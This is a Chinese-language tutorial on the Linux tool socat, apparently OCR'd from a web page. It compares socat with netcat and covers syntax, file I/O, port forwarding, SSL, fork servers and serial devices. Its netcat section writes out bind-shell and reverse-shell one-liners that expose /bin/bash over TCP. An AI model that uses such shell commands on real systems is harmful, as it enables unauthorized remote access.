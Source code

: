 3 概述

socat，是linux下的一個工具，其功能與有“瑞士軍刀”之稱的netcat類似，不過據說可以看做netcat的加強版。的確如此，它有一些netcat所不具備卻又很有需求的功能，例如ssl連接這種。nc可能是因為比較久沒有維護，確實顯得有些陳舊了。

# 安裝

Ubuntu:sudo apt-get install socat

也可以去官網下載源碼包socat

基本語法
```
socat [options] <address> <address>
```

其中這2個address就是關鍵了，如果要解釋的話，address就類似於一個檔描述符，socat所做的工作就是在2個address指定的描述符間建立一個pipe用於發送和接收資料。

那麼address的描述就是socat的精髓所在了，幾個常用的描述方式如下：
```
-,STDIN,STDOUT ：表示標準輸入輸出，可以就用一個橫杠代替，這個就不用多說了吧….
/var/log/syslog : 也可以是任意路徑，如果是相對路徑要使用./，打開一個檔作為資料流程。
TCP:: : 建立一個TCP連接作為資料流程，TCP也可以替換為UDP
TCP-LISTEN: : 建立TCP監聽埠，TCP也可以替換為UDP
EXEC: : 執行一個程式作為資料流程。
以上規則中前面的TCP等都可以小寫。
```

在這些描述後可以附加一些選項，用逗號隔開，如fork，reuseaddr，stdin，stdout，ctty等。
```
socat當cat


socat - -
cat文件

1
socat - /home/user/chuck
寫文件

1
echo "hello" | socat - /home/user/chuck
socat當netcat
連接遠端埠

1
2
nc localhost 80
socat - TCP:localhost:80
監聽埠

1
2
nc -lp localhost 700
socat TCP-LISTEN:700 -
正向shell

1
2
nc -lp localhost 700 -e /bin/bash
socat TCP-LISTEN:700 EXEC:/bin/bash
反彈shell

1
2
nc localhost 700 -e /bin/bash
socat tcp-connect:localhost:700 exec:'bash -li',pty,stderr,setsid,sigint,sane
代理與轉發
將本地80埠轉發到遠端的80埠

1
socat TCP-LISTEN:80,fork TCP:www.domain.org:80
其他
其實從這裡才是重點

SSL連接
SSL伺服器

1
socat OPENSSL-LISTEN:443,cert=/cert.pem -
需要首先生成證書檔

SSL用戶端

1
socat - OPENSSL:localhost:443
fork伺服器
接下來這個例子，就是我認識socat的原因，可以將一個使用標準輸入輸出的單進程程式變為一個使用fork方法的多進程服務，非常方便。

1
socat TCP-LISTEN:1234,reuseaddr,fork EXEC:./helloworld
不同設備的通信
將U盤進行網路共用

1
socat -d -d /dev/ttyUSB1,raw,nonblock,ignoreeof,cr,echo=0 TCP4-LISTEN:5555,reuseaddr
-d -d 指的是調試信息的級別

將終端轉發到COM1

1
socat READLINE,history=$HOME/.cmd_history /dev/ttyS0,raw,echo=0,crnl
socat還有個readbyte的option，這樣就可以當dd用了。

小結
因為在Linux/UNIX中，一切都是檔，無論是socket還是其他設備。所以從理論上來說，一切能夠在檔層級訪問的內容都可以成為socat的資料流程的來源，2個address可以任意發揮，能夠做到的事情還有很多。特別是其fork的功能，確實是netcat所不能比的。

參考文獻
借鑒的幾篇博文：

Some Useful Socat Commands

Socat: A very powerful networking tool

Socat Examples
```
